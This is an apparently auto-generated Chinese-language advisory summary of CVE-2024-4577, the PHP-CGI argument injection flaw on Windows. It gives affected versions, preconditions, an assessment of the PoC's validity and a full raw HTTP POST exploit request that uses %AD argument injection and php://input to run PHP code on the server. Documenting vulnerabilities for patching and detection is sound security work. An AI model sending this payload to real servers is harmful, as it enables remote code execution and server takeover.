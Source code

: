 ## CVE-2024-4577 - PHP-CGI Argument Injection RCE

**漏洞编号:** CVE-2024-4577

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** PHP (Windows, CGI模式)

**危害等级:** 高危，可能导致远程代码执行、源码泄露

**影响版本:** PHP 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8

**利用条件:** Windows 系统, PHP 使用 CGI 模式运行, 启用使用“Best Fit”策略的代码页, Apache 服务器

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2024-4577 是一个 PHP-CGI 参数注入漏洞，存在于 Windows 版本的 PHP 中，当 PHP 以 CGI 模式运行时会受到影响。漏洞源于 Windows 在某些代码页配置下，“Best Fit” 策略可能导致命令行参数中的字符被错误转换，PHP-CGI 模块会将这些字符误解为 PHP 选项，从而允许攻击者向 PHP 传递恶意参数。 

**有效性：**
提供的 POC 代码通过 POST 请求向服务器发送包含恶意 PHP 代码的请求体，利用 `allow_url_include` 和 `auto_prepend_file` 指令来执行请求体中的 PHP 代码。如果服务器返回“vulnerable”，则表示漏洞利用成功。从漏洞原理以及多个参考链接中漏洞利用的描述，可以判断该POC代码是有效的。

**投毒风险：**
提供的漏洞利用代码主要是用于验证漏洞是否存在，本身并没有发现明显的恶意代码或后门，但是从github仓库的拉取和环境配置过程中存在一定风险。投毒风险较低，估计为 5%。

**利用方式：**
1.  **环境准备：** 搭建存在漏洞的 PHP 环境，包括：
    *   Windows 系统
    *   PHP 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8
    *   Apache 服务器
    *   PHP 以 CGI 模式运行
    *   配置系统 Locale 为日语、简体中文或繁体中文，以启用 Best-Fit 字符转换。
2.  **发送恶意请求：**  构造包含恶意 PHP 代码的 POST 请求，利用 `allow_url_include` 和 `auto_prepend_file` 指令来执行恶意代码。例如，使用以下请求：
```
POST /?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: {{HOST}}
User-Agent: curl/8.3.0
Accept: /*
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php echo \"vulnerable\"; ?>
```

3.  **远程代码执行：** 成功利用漏洞后，攻击者可以在服务器上执行任意 PHP 代码，从而控制服务器。

**参考链接：**
*   [https://nvd.nist.gov/vuln/detail/cve-2024-4577](https://nvd.nist.gov/vuln/detail/cve-2024-4577)
*   [https://www.akamai.com/blog/security-research/2024-php-exploit-cve-one-day-after-disclosure](https://www.akamai.com/blog/security-research/2024-php-exploit-cve-one-day-after-disclosure)
*   [https://www.bitsight.com/blog/cve-2024-4577-windows-encoding-gone-wrong](https://www.bitsight.com/blog/cve-2024-4577-windows-encoding-gone-wrong)
*   [https://github.com/xcanwin/CVE-2024-4577-PHP-RCE](https://github.com/xcanwin/CVE-2024-4577-PHP-RCE)

**项目地址:** [AlperenY-cs/CVE-2024-4577](https://github.com/AlperenY-cs/CVE-2024-4577)

**漏洞详情:** [CVE-2024-4577](https://nvd.nist.gov/vuln/detail/CVE-2024-4577)